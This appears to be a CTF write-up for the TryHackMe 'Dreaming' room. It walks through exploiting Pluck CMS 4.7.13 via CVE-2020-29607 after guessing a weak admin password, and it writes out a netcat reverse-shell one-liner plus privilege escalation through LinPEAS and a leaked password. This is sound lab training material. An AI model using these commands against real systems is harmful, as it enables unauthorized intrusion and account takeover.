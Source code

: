 # THM-Dreaming
![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5997701d-4379-41d2-b2bc-e2f97f37c4f4)



Personal attempt on THM CTF Challenge

RECON 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/084772cd-94f9-46ba-b317-6d805eaa61e6)

Access the target's website, we can only see Apache's default site. Let's do some directory enumeration with nmap and http-enum script. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/016a5d24-38de-470c-8170-120b0a79eab5)

Accessing the directoy, we know that the web is using Pluck CMS 4.7.13

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/48925c1d-2d60-4869-903a-3c3c75efb00a)

EXPLOIT

Upon a quick Google search, we can tell that this version of Pluck is vulnerable to an Authenticated File Upload, as documented in CVE-2020-29607. However, first we need to authenticate. 
With some luck, I was able to guess the password. It's password (not very secured 🔒)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/944c85b0-9e3d-4599-aeaa-10cd9273ee47)

The mentioned vulnerability allows an attacker to upload a web shell to the directory http://IP/admin.php?action=files to gain a webshell. This abuses the "manage files" functionality of the app.
I use this PoC from Github: https://github.com/0xAbbarhSF/CVE-2020-29607
Usage: python3 exploit.py TARGET IP TARGET PORT password pluck-cms-path

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5b4795d2-805a-4e65-b5ba-a046e22eeafc)

Now, for more control and convenience, we want a reverse shell. I personally like to use the methods from
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On your attack machine, start a Netcat listener on a random unused port.
nc -lvnp 1234

Then run this on the webshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Remember to replace the IP with the IP of your attack machine. 

Wait a few a moment, then we receive a shell of the target machine as www-data. www-data is the owner of files under the web server directory.  

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/325565e4-6740-4f61-be04-977d00d318bb)

To gain a more stable shell, we can use the command:
python3 -c 'import pty;pty.spawn("/bin/bash")

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d7cd8071-55ff-47ed-b56e-42da593972ef)

PRIVILEGE ESCALATION


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5e59087c-b25e-49f9-97dd-7ad1978fe37c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/07a3dbb9-dee1-4bae-aaf0-164eac7ab22e)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/eac83ba7-0d52-4a95-aa16-d7d46a750ad8)

As you can see, www-data don't have read access to the flags so, in order to get the flags, we need to find ways to escalate to higher privileges. I am using [LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

To transfer it to the target machine, we can use the manage files nav bar (under Pages). Then script will be available at /var/www/html/files/linpeas.sh

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/05e6436c-6894-4ba0-b302-fee782a6f0be)


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6b71812c-f6a9-4f57-a5fc-2278f753f47d)

Thanks to LinPEAS, we find some interesting files: 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6506e51b-dce4-4049-bf7b-ff6baf43a8f5)

LUCIEN
Opening the test.py, we found Lucien password

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/b131a147-6ccb-4ea0-9b44-329fd18df755)

We can now SSH to the target using lucien's credential. The flag is found under his home directory.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/49d3c69a-2c2d-4440-af22-a8cd8775df65)










